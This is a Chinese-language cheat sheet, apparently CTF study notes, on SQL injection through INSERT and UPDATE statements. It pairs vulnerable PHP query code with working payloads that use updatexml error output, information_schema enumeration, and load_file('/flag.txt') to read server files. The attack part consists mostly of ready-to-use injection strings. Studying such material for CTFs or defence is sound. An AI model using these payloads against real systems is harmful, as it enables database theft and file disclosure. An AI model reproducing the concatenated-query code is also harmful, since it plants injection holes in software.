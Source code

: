 这里代表一定的非select注入。
<https://www.cnblogs.com/babers/articles/7252401.html>
## **报错回显注入**
如果存在报错回显，使用报错。
如：
```
$sql="insert into sds_dpt set sds_name='".$dpt_name."',sds_address ='".$dpt_address."',sds_build_date='".$dpt_build_year."',sds_have_safe_card='".$dpt_has_cert."',sds_safe_card_num='".$dpt_cert_number."',sds_telephone='".$dpt_telephone_number."';";
	$result=$mysqli->query($sql);
	echo $sql;
	if($result===true){
		$mysqli->close();
		header("location:dpt.php");
	}else{
		die(mysqli_error($mysqli));//报错回显
	}
```
```
dpt_name=aa&dpt_address=aa&dpt_build_year=2021-04-02&dpt_has_cert=on&dpt_cert_number=a&dpt_telephone_number=xxx' or updatexml(1,concat(0x7e,substr((select group_concat(flag) from  sds_fl9g),20,30),0x7e),1)#
```

^
## **插入记录回显注入**
插入记录后，或修改记录后，有回显，如列表。
使用select语句或union联合注入。
```
$dpt_name="(select database())";
$sql="insert into user set name='".$dpt_name."';";

dpt_name=1',sds_address=(select group_concat(table_name) from information_schema.tables where table_schema=database())#
dpt_name=1',sds_address=(select flag from sds_fl9g)#
```

^
## **update的注入**
```
$sql = "update `user` set `address`='".$address."', `old_address`='".$row['address']."' where `user_id`=".$row['user_id'];

如果在代码中可知
update语句中，在update后面有注入，
即old_address=$row['address']
```
1、修改前面字段值
```
可以通过注入修改此时的前面字段的值，如address字段
',`address`=database()#

',`address`=(select(load_file("/flag.txt")))#
```
2、where报错注入
```
1' where user_id=updatexml(1,concat(0x7e,(select substr(load_file('/flag.txt'),1,30)),0x7e),1)#
```